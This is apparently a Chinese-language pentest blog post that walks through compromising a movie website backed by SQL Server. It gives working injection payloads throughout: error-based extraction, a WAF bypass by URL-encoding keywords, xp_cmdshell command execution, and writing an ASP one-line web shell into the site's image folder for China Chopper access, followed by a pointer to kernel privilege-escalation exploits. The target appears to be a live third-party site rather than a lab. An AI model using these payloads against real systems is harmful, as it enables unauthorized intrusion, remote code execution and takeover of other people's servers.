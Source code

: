 ```yaml
---
title: SQL注入练手站
date: 2017-10-23 21:08:32
categories: Pentest
tags: SQLInjection
toc: true
---
```



### 0x00 


使用[WhatWeb](https://whatweb.net/)来获取网站的一些基本信息
![](0.png)

对资源列表页面随手进行测试发现存在注入漏洞。

一般网站可能会对用户输入进行过滤，但是对于自己预置的参数值就会放松警惕，此处的`area`为影片的国家。
```
list?area=%E9%A6%99%E6%B8%AF&Category=
```
![](1.png)

```
list?area=1'
```
![](2.png)

尝试`order`出错
```
list?area=1' order by 1;-- 
```
**注：`--`后要接一个空格，或者直接使用`#`注释符，此处为sqlserver,不能使用`#`**

![](3.png)


### 0x01

既然能显示错误，那么考虑使用类型转换报错来返回结果。
```
list?area=1' and db_name(x)>0;-- 
```
**[注：`x`参数可用来选择不同数据库，为空即返回当前数据库名。][url]**
[url]:https://technet.microsoft.com/en-us/library/ms189753(v=sql.110).aspx
![](4.png)

直接猜存在`admin`表，猜到字段`user`和`pwd`

但是突然发现有WAF，过滤了一些关键字。

多次测试后发现可通过URL编码转换绕过。如：`select`改变一个`e`为 URL编码`%65`，使用`s%65lect`即可
```
list?area=1' and (s%65lect pwd from admin)>0 -- 
```
![](5.png)

结果不可解。

### 0x02

换思路

考虑命令执行

直接添加用户，提权，然后远程连接，发现没有成功。

但是，执行命令又不能直接在页面回显。

考虑把回显写到表中，然后通过读取表中的内容获得结果。

建个新表
```
list?area=1';
CR%65ATE TABLE fileList(line varchar(8000))-- 
```
执行命令，并把结果写入到表中
```
list?area=1';
IN%53ERT INTO fileList 
  %45XEC xp_cmdshell 'whoami'-- #  
```
直接读取只能读一行，使用`FOR XML`，可一次性获取全部内容
```
list?area=1' and (S%65LECT * FROM fileList FOR XML AUTO)>0 --
```
发现权限不够。

### 0x04
不能一步到位，就退而求其次，上个一句话

一开始想着写在`list`页面的同一个目录下

无奈发现，写入后，怎么都找不到。

经指点知，可能采用的是`SVM`结构的网站，最有效的写入路径应该是存储图片的文件夹
```
list?area=1';
IN%53ERT INTO fileList   
  %45XEC xp_cmdshell 'echo <%eval request("pass")%^>^ > c:\website\Movie\movie\Content\123.asp'-- 
```
**注：在cmd中使用`>`会被解析为输出符号，要想使用必须要用`^`包裹**

菜刀连接

### 0x05

[提权](https://github.com/SecWiki/windows-kernel-exploits)